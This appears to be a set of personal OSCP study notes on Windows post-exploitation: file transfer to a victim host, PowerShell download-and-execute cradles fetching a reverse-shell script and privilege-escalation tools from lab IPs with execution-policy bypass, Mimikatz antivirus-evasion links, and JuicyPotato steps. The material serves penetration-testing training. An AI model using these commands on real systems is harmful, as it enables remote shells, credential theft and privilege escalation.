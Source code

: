 # OSCP-NOTES

## File transfer cheat sheet
> - https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
> - https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
> - https://techmonger.github.io/3/linux-windows-ftp/
> - sudo impacket-smbserver -smb2support test . -> attacker machine
> - copy \\192.168.119.161\test\winPEASx86.exe winPEASx86.exe -> vitim machine 

## Powershell 
### Check powershell running on system 64 or 32 
> - [Environment]::Is64BitProcess 
### Command powershell to get reverse shell 
> - powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.119.153/Invoke-PowerShellTcp.ps1')"
> - C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.119.180/Invoke-MS16032.ps1')” -bypass executionpolicy
### POWERSHELL TO RUNNING MIMIKATZ
> - https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/
> - https://theitbros.com/managing-windows-defender-using-powershell/  

### Powershell to PE
> - Install sherlock ps1 github And run -> powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.119.180/Sherlock.ps1'); Find-AllVulns”


## Windows PE
> - Check juice potato work or not with command "Whoami /priv". If SeImpersonatePrivilege is enabled yes . you can exploit that 
follow this step 
> - powershell "IEX(New-Object Net.WebClient).downloadFile('http://192.168.119.161:8000/JuicyPotato.exe','C:\test\JuicyPotato.exe')" -bypass executionpolicy
> - Create this script to show clsid :
> $ New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
> $ $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object
> $ {$_.appid -ne $null}
> $foreach($a in $CLSID)
> $ {
> $    Write-Host $a.CLSID
> $ }


